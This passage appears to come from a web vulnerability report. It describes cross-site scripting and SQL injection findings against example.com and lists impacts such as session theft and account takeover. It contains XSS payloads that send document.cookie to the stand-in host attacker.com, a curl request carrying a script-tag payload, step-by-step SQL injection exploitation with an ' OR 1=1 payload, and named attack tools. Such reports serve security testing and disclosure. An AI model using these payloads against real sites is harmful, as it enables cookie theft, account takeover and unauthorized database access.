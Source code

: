 #### Code Examples

**JAVASCRIPT:**
```javascript
fetch('https://attacker.com/steal.php?cookie=' + document.cookie);
```

**HTML:**
```html
<img src="x" onerror="fetch('https://attacker.com/steal.php?cookie=' + document.cookie)">
```

#### Command Examples

```bash
curl -X GET "http://example.com/search?q=<script>alert(document.cookie)</script>"
```

#### Required Tools

- Browser Developer Tools
- XSS Hunter
- BeEF (Browser Exploitation Framework)

#### Potential Impact

- Theft of user cookies and session tokens
- Account takeover and identity theft
- Malicious actions performed on behalf of the victim
- Distribution of malware to users
- Access to sensitive browser data (webcam, microphone, location)
- Defacement of website content
- Social engineering attacks on users

---

### SQL Injection (High)

**Affected Component:** http://example.com/product (id parameter)

**Description:** An attacker can inject malicious SQL code into application queries, allowing them to bypass authentication, access unauthorized data, modify database contents, or delete information. In some cases, they may achieve server-level command execution.

#### Step-by-Step Exploitation

1. Navigate to the vulnerable page: http://example.com/product
2. Identify the vulnerable parameter: id
3. Test basic SQL injection payloads (e.g., ' OR '1'='1)
4. If vulnerable, extract database structure with UNION attacks
5. Extract sensitive data from identified tables

#### Example Payloads

```
' OR 1=1; --
```
